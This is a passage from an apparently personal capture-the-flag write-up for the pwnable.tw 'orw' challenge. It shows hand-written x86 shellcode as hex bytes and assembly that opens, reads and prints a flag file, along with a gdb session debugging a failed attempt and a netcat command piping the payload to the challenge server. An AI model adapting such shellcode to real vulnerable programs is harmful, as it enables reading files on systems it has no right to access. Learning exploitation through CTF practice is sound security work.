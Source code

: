 ```
jne read

String literal:
\xB8\x05\x00\x00\x00\x68\x66\x6C\x61\x67\x68\x6F\x72\x77\x2F\x68\x6F\x6D\x65\x2F\x68\x2F\x68\x00\x00\x89\xE3\x31\xC9\x31\xD2\xCD\x80\x89\xC7\x89\xFB\xB8\x03\x00\x00\x00\x89\xE1\xBA\x01\x00\x00\x00\xCD\x80\x40\x31\xDB\x89\xE1\xCD\x80\x83\xF9\x00\x75\xE4
```

First attempt was a *disasterous failure*. The program fell into an infinite loop. See the embarassing output below.
```

(gdb) run < exploit\ for\ orw 
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/solomonbstoner/Desktop/orw < exploit\ for\ orw
Give my your shellcode:
Breakpoint 2, 0x0804858a in main ()
=> 0x0804858a <main+66>:	ff d0	call   eax
(gdb) ni
^C
Program received signal SIGINT, Interrupt.
0x0804a09a in shellcode ()
=> 0x0804a09a <shellcode+58>:	83 f9 00	cmp    ecx,0x0
(gdb) 

```
When I tested with the actual server, I *do not know* why but there was no output. My shellcode was supposed to output a shellcode. (╯°□°）╯︵ ┻━┻ 
```
solomonbstoner@swjsUbuntu:~/Desktop$ cat exploit\ for\ orw | nc chall.pwnable.tw 10001
Give my your shellcode:solomonbstoner@swjsUbuntu:~/Desktop$ cat exploit\ for\ orw | nc chall.pwnable.tw 10001
```

#### Reattempting the challenge

Perhaps what I did was too complicated. So I decided to, instead of reading and writing one character of the flag at a time, I would read multiple characters at once, then write them out together.
This is my Second attempt:
```
mov eax, 0x5
push 0x0
push 0x67616c66
push 0x2f77726f
push 0x2f656d6f
push 0x682f0000
mov ebx, esp
xor ecx, ecx
xor edx, edx
int 0x80
push eax
mov eax, 0x3
pop ebx
mov ecx,0x804a100
mov edx, 0x28
int 0x80
mov al, 0x4
xor ebx,ebx
mov ecx, 0x804a100
int 0x80

String literal:
```